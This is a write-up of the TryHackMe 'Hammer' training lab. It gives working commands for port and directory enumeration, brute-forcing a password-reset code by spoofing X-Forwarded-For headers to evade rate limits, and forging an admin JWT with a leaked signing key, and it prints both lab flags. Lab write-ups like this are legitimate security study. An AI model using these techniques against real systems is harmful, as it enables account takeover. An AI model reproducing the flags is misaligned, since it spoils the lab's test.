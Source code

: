 
# 🔨 TryHackMe: Hammer

> A vulnerable web app focused on login bypass, rate limit abuse, and JWT token manipulation.  
> 💡 Skills practiced: Port scanning, directory brute-force, request fuzzing, session manipulation, and JWT tampering.

---

## 🎯 Objectives

- Enumerate services and directories
- Bypass rate-limited password reset mechanism
- Manipulate JWT token to gain admin access
- Capture both user and root flags

---

## 🔧 Tools Used

- `nmap` – Full port scan  
- `ffuf` – Directory and code brute-forcing  
- `Burp Suite` – For intercepting and analyzing requests  
- `printf`, `head` – Wordlist generation for brute-force  
- `jwt.io` – For decoding and re-signing JWTs  
- Firefox Dev Tools – Cookie inspection

---

## 🔍 Enumeration

Initial full-port scan using:

```bash
nmap -p- -sV 10.10.63.242
```

Result:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu
1337/tcp open  http    Apache 2.4.41
```

Visited `http://10.10.63.242:1337` — login page detected.

---

## 💡 Web Discovery & Directory Brute-Forcing

Inspected source code and found a hint:
```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

Ran ffuf to discover hidden directories:

```bash
ffuf -u http://10.10.63.242:1337/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Found:
- `/hmr_logs/error.logs` — contained:
  - User: `tester`
  - Directory: `/restricted-area`

Tried password reset on tester@hammer.thm → asked for a 4-digit code

---

## 🔐 Bypassing Password Reset Rate-Limit

The form was IP rate-limited. I generated:

```bash
# Generate all 4-digit codes
printf "%04d\n" {0..9999} > count-9999.txt

# Create 1000 fake IPs
for X in {0..255}; do for Y in {0..255}; do echo "192.168.$X.$Y"; done; done > fake_ip.txt
head -n 1000 fake_ip.txt > fake_ip_cut.txt
```

Brute-forced the reset code with `ffuf`:

```bash
ffuf -w count-9999.txt:W1 -w fake_ip_cut.txt:W2 \
-u "http://10.10.63.242:1337/reset_password.php" \
-X POST -d "recovery_code=W1&s=80" \
-b "PHPSESSID=YOUR_SESSION_HERE" \
-H "X-Forwarded-For: W2" \
-H "Content-Type: application/x-www-form-urlencoded" \
-fr "Invalid" -mode pitchfork -fw 1 -rate 100 -o output.txt
```

Got the code ✅ → reset password → logged in as `tester`.

---

## 🚩 User Flag

After login:
```txt
THM{AuthBypass3D}
```

---

## 🔍 JWT Manipulation for Admin Access

Source code revealed JWT in JS:

```js
var jwtToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1Ni...';
```

Decoded at `jwt.io`, changed role to `"admin"`.

Re-signed using `.key` found in `/188ade1.key`.

Replaced the `Authorization` header:

```http
Authorization: Bearer MODIFIED.JWT.HERE
```

Gained admin access ✅

---

## 🏁 Root Flag

Accessed `/home/ubuntu/flag.txt`:
```bash
cat /home/ubuntu/flag.txt
```

Flag:
```txt
THM{RUNANYCOMMAND1337}
```

---

## 📚 What I Learned

- Enumerating hidden directories using `ffuf`  
- Bypassing IP-based rate limits with fake headers  
- Brute-forcing numeric codes using wordlists  
- Analyzing and forging JWT tokens using leaked key  
- Login logic & privilege escalation through web abuse

---

✅ End of walkthrough.
